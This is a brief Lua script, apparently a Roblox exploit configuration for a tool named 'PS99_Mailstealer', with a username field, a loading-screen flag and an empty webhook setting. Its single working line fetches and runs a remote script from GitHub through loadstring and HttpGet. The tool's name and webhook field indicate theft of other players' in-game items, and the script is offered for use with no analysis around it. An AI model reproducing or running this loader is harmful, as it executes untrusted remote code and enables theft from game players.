 Username = "ROBLOX.NAME HERE"
LoadScreen = true 
Webhook = "" -- 

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
